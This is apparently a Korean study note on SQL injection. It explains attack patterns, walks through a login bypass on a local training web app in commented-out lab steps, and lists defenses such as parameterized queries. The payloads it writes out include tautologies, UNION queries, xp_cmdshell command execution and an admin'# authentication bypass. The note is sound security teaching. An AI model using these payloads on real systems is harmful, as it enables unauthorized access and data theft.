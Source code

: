 
# SQL Injection

<center><img src = "https://user-images.githubusercontent.com/76420201/106089260-ee74ed00-616a-11eb-8fe7-1ac6681d5e2e.png" ></center>

SQL Injection 이란 악의적인 사용자가 보안상의 취약점을 이용하여, 임의의 SQL 문을 주입하고 실행되게 하여 데이터베이스가 비정상적인 동작을 하도록 조작하는 행위 입니다. 인젝션 공격은 비교적 쉬운 편이고 공격에 성공할 경우 큰 피해를 입힐 수 있는 공격입니다.

- 외부 입력값을 쿼리 조작 문자열 포함 여부를 검증하지 않고 SQL문 생성 및 실행에 사용하는 경우 <br>
    - 쿼리의 의미와 구조가 변경되어서 실행
    - 의도하지 않은 데이터베이스에 대한 조작이 가능

<br>

## 공격자 패턴

1. 항상 참이 되는 입력<br>
예) `a' or 'a' = 'a`<br>
`select * from users where name = 'a' or 'a' = 'a'`<br>
-> 모든 데이터를 조회<br> 
-> 권한 밖에 데이터에 접근 가능

2. 오류를 유발하는 입력<br>
예) `a'`<br>
`select * from users where name = 'a''`<br> 
-> 구문 오류를 유발<br>
-> 시스템 오류를 통해서 시스템 내부 정도 수집에 활용

3. 추가 정보를 조회하는 입력<br>
예) hong' union select * from ... --<br>
select * from users where name = 'hong' <br>
union<br>
select * from ... --<br>

4. 시스템 명령어 실행하는 입력<br><br>
예) hong'; exec xp_cmdshell 'cmd.exe /c ipconfig'; -- <br>
`select * from users where name = 'hong'; exec xp_cmdshell 'cmd.exe /c ipconfig'; -- '`<br>
-> 해당 DBMS의 쉘 이용이 가능 = 제어권을 탈취


5. 참, 거짓을 유발하는 입력 ⇒ Blind SQL Injection

<br>

## SQL Injection을 이용한 인증과정 우회

<!-- @Attacker 가상머신에서 Proxy를 해제 후 http://winxp:8080/openeg로 접속

#1 처리 과정을 추측
사용자 입력
ID: a
PW: b

서버로 전달
http://winxp:8080/openeg/login.do?userid=a&userpw=b

서버에서 처리
select * from users where user_id = 'a' and user_pw = 'b'

#2 입력값이 검증 없이 처리에 사용되는지 여부를 확인
사용자 입력
ID: a'
PW: b'

서버로 전달
http://winxp:8080/openeg/login.do?userid=a'&userpw=b'

서버에서 처리
select * from users where user_id = 'a'' and user_pw = 'b''


HTTP Status 500 -
type Exception report

message
description The server encountered an internal error () that prevented it from fulfilling this request.

exception
org.springframework.web.util.NestedServletException: Request processing failed; nested exception is org.springframework.jdbc.BadSqlGrammarException: SqlMapClient operation; bad SQL grammar []; nested exception is com.ibatis.common.jdbc.exception.NestedSQLException:   
--- The error occurred in kr/co/openeg/lab/login/dao/login.xml.  
--- The error occurred while applying a parameter map.  
--- Check the login.loginCheck2-InlineParameterMap.  
--- Check the statement (query failed).  
--- Cause: com.mysql.jdbc.exceptions.jdbc4.MySQLSyntaxErrorException: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'b''' at line 1
	org.springframework.web.servlet.FrameworkServlet.processRequest(FrameworkServlet.java:894)
					:

#3 수집한 정보를 이용해서 추가 공격 시도
사용자 입력
ID: a'#
PW: b'#

서버로 전달
http://winxp:8080/openeg/login.do?userid=a'#&userpw=b'#

서버에서 처리
select * from users where user_id = 'a'#' and user_pw = 'b'#'


#4 가입된 회원 정보를 조회
amdin으로 회원 가입을 시도 → 이미 가입된 회원 ⇒ admin 이라는 아이디를 사용하는 사용자가 존재


#5 admin으로 로그인을 시도
사용자 입력
ID: admin'#
PW: b'#

서버로 전달
http://winxp:8080/openeg/login.do?userid=admin'#&userpw=b'#

서버에서 처리
select * from users where user_id = 'admin'#' and user_pw = 'b'#' -->

<br>

## 방어 기법

- 쿼리 조작 문자열 포함 여부를 확인
    - 제거하고 사용
    - 안전한 형태로 바꿔서 사용
- 일정한 형태로 쿼리가 실행되는 것을 보장 = 구조화된 쿼리 실행 = 파라미터화된 쿼리 실행 = 정적 쿼리 실행
- 오류 메시지를 통제 = 오류 메시지에 시스템 정보가 포함되지 않도록 처리
- 어플리케이션에서 사용하는 DB 사용자의 권한을 최소로 부여




<details markdown="1">
<summary><b>WebGoat / String SQL Injection</b></summary>
<br>   
소스코드 ⇒ @WinXP > Eclipse > Ctrl+Shift+R ><br> 
@Attacker 가상머신에서 http://winxp:8080/WebGoat으로 접속

</details>

<details markdown="1">
<summary><b>WebGoat / Numeric SQL Injection</b></summary>
<br>   

</details>

<details markdown="1">
<summary><b>WebGoat / Blind Numeric SQL Injection</b></summary>
<br>   

</details>

<details markdown="1">
<summary><b>WebGoat / Blind String SQL Injection</b></summary>
<br>   

</details>